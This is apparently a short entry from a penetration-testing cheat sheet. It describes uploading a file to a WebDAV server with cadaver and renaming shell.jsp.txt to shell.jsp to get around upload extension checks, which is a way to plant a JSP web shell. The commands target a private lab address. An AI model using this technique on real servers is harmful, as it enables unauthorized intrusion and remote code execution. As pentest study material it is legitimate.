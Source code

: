 ## WebDAV

We can sometimes use WebDAV to upload files to a system.

If it's enabled use a tool like cadaver to PUT a file onto the server, usually there are some restrictions on file uploads/execution, bu it doesn't recheck the file after the initial upload, so just use the mv command to change the extension.

```bash
$> cadaver http://192.168.56.5

put shell.jsp.txt
mv shell.jsp.txt shell.jsp
```
